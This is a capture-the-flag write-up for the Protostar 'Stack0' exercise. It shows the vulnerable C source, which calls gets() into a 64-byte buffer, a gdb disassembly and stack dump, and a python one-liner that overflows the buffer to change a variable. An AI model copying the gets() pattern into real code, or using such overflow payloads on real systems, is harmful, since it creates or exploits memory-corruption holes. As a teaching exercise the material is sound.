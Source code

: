 ```
TL;DR -> python -c "print 'A'*(4 + 16*3 + 14)" | ./stack0
```

# Stack0

URL: https://exploit.education/protostar/stack-zero/
This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

Source code

```#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

# Writeup

When we run the binary, it is asking for input

```
user@protostar:/opt/protostar/bin$ gdb stack0
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack0...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
(gdb) break *0x0804840c
Breakpoint 1 at 0x804840c: file stack0/stack0.c, line 11.
(gdb) break *0x08048411
Breakpoint 2 at 0x8048411: file stack0/stack0.c, line 13.
(gdb) r
Starting program: /opt/protostar/bin/stack0

Breakpoint 1, 0x0804840c in main (argc=1, argv=0xbffff864) at stack0/stack0.c:11
11      stack0/stack0.c: No such file or directory.
        in stack0/stack0.c
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAA

Breakpoint 2, main (argc=1, argv=0xbffff864) at stack0/stack0.c:13
13      in stack0/stack0.c
(gdb) x/24wx $esp
0xbffff750:     0xbffff76c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff760:     0xb7fd7ff4      0xb7ec6165      0xbffff778      0x41414141
0xbffff770:     0x41414141      0x41414141      0x41414141      0x08004141
0xbffff780:     0xb7ff1040      0x08049620      0xbffff7b8      0x08048469
0xbffff790:     0xb7fd8304      0xb7fd7ff4      0x08048450      0xbffff7b8
0xbffff7a0:     0xb7ec6365      0xb7ff1040      0x0804845b      0x00000000
(gdb)
```

As we can see `0x41414141` and `0x00000000`, there are total `4 + (4*4)*3 + (4*3 + 2)` bytes

---

One liner solution:

`python -c "print 'A' * (4 + (4*4)*3 + (4*3 + 2))" | ./stack0`
